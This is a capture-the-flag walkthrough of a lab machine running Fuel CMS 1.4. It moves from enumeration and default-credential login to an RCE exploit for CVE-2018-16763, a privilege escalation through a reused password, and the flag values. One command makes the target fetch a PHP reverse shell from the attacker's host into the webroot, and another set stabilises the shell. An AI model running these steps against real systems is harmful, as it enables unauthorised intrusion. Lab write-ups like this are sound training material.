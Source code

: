 ```yaml
---
sticker: lucide//flame
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![[Pasted image 20250409164857.png]]

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![[Pasted image 20250409164943.png]]


We got a `/fuel` directory:



![[Pasted image 20250409165010.png]]

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![[Pasted image 20250409165238.png]]

Maybe default credentials still work, let's try:

![[Pasted image 20250409165313.png]]

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![[Pasted image 20250409165623.png]]

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![[Pasted image 20250409165739.png]]

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![[Pasted image 20250409171154.png]]

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![[Pasted image 20250409171256.png]]



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![[Pasted image 20250409171335.png]]

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![[Pasted image 20250409172944.png]]

We got a password, let's switch to root:

![[Pasted image 20250409173005.png]]

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![[Pasted image 20250409173046.png]]


